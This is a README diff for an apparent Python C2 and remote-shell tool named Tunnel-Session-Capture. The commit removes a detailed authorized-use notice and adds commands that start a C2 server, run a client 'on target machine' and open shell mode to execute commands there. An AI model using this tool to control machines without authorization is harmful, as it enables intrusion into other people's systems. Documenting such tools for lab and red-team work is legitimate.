

Before and after one commit to zohaibdevs/Tunnel-Session-Capture, a Markdown page: README.md, 2 parts joined by grey strips. Shown at 86% size. Rendered like a GitHub page; blank space fills up the shorter version.

```diff
--- a/README.md
+++ b/README.md
@@ -10,25 +10,6 @@ It allows you to:
 -   Store session data locally in JSON format
 -   Establish TCP-based communication (Server / Client mode)
 -   Manage sessions interactively via CLI
-
-------------------------------------------------------------------------
-## ⚠️ IMPORTANT LEGAL & ETHICAL NOTICE
-
-**This tool is provided STRICTLY for:**
-
-- Educational purposes (learning networking, sockets, tunneling, etc.)
-- Authorized penetration testing / red teaming **with explicit written permission** from the system owner
-- Internal lab environments and controlled security exercises
-
-**Unauthorized use is illegal** — including (but not limited to):
-
-- Targeting systems you do not own
-- Using without clear, documented consent
-- Any form of real-world deployment without authorization
-
-This may violate laws such as the Computer Fraud and Abuse Act (CFAA) in the US or equivalent legislation in other countries.
-
-**The author(s) accept NO responsibility or liability for misuse.**
 
 ------------------------------------------------------------------------
 
@@ -106,40 +93,39 @@ I am displaying local IP due to security purpose  don't worry session list show
 
-### Step 3 -- Select Port Right after Ip Selection
-Select The Port of target machine
+### Step 3: Start C2 Server
+	python main.py c2 --type server --ip TARGET_IP --port 7706
 
-    0: Exit
-    1: Use Default Port (7706)
-    2: Use Custom Port (If you want any port number)
-    Enter Port Option: 1
+-   Server starts listening for connections
+-   Wait for client to connect
 
-### Step 4 -- Start Server/Client
-You can run server / client By Chosing one of theme option
+### Step 4: Start C2 Client (on target machine)
+	python main.py c2 --type client --ip SERVER_IP --port 7706
 
-    0: Exit
-    1: Start Server
-    2: Start Client
-    Enter C2 Option: 1
+-   Client connects to server
+-   Communication established
 
-### On Serve Start
-Now Server is waiting for client
+### Step 5: Interact with Target
+-   Type messages to send to target
+-   Type `shell` to enter shell mode
+-   Execute commands like `ls`, `whoami`, etc.
+-   Type exit to leave shell mode
+------------------------------------------------------------------------
 
-    [*] Starting SERVER on 192.168.1.7:7706
-    [STARTING] server is starting...
-    [LISTENING] Server is listening on 192.168.1.7:7706
+# 🛡 Disclaimer
 
-### On Client Start
+This project is intended for educational and internal communication
+testing purposes only.
 
-	[*] Starting CLIENT to 192.168.1.7:7706
-	[STARTING] client is starting...
-	[CONNECTED] Client connected to server
-
-  ### After Client Started Server Auto Capture the Connection
-
-	[NEW CONNECTION] ('192.168.1.7', port_number) connected to the server
-	[ACTIVE CONNECTIONS] 1
-	[Client] ('192.168.0.0', port_number): ALIVE:DESKTOP-PML7EU0
-	[Server]?>:
-
-
+The author is not responsible for misuse.
 
 ------------------------------------------------------------------------
+
+# 👨‍💻 Author
+
+Zohaib Ud Din
+GitHub: https://github.com/zohaibdevs/Tunnel-Session-Capture.git
+
+------------------------------------------------------------------------
+
+# 📜 License
+
+MIT License
```
Also changed, not shown: other parts of README.md (+44 -38 lines).
